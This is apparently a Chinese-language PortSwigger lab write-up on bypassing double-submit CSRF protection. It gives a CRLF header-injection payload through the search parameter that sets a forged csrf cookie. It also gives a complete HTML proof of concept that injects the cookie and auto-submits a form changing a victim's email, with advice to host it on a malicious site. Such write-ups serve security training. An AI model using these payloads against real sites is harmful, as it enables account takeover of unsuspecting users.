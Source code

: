 cookie与post数据中同时存在csrf，

并且repeater验证只要post数据和cookie数据一致即可绕过验证。

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/csrf/images/6806B54A5D474757A58A35A2D45E1750clipboard.png)

只要cookie与post中的csrf令牌一致即可，发起请求



此时我们只要能够控制cookie的值，即可利用csrf漏洞



网站search接口存在cookie注入

payload:

```javascript
/?search=test%0d%0aSet-Cookie:%20csrf=fake
```

该paylod能注入cookie

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/csrf/images/520E3E306F034BF98A54486B04E09F94clipboard.png)



此时可以构造利用代码：

```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
  
  //post数据提交email修改请求
    <form action="https://ac111fac1f531520803e02ba00ac0052.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="14062&#64;qq&#46;com" />
      <input type="hidden" name="csrf" value="hack" />
      <input type="submit" value="Submit request" />
    </form>
    //img src错误自动提交post数据，并且访问src内容
<img src="https://ac111fac1f531520803e02ba00ac0052.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=hack" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

将该脚本部署到恶意网站上诱使受害者打开即可，修改用户email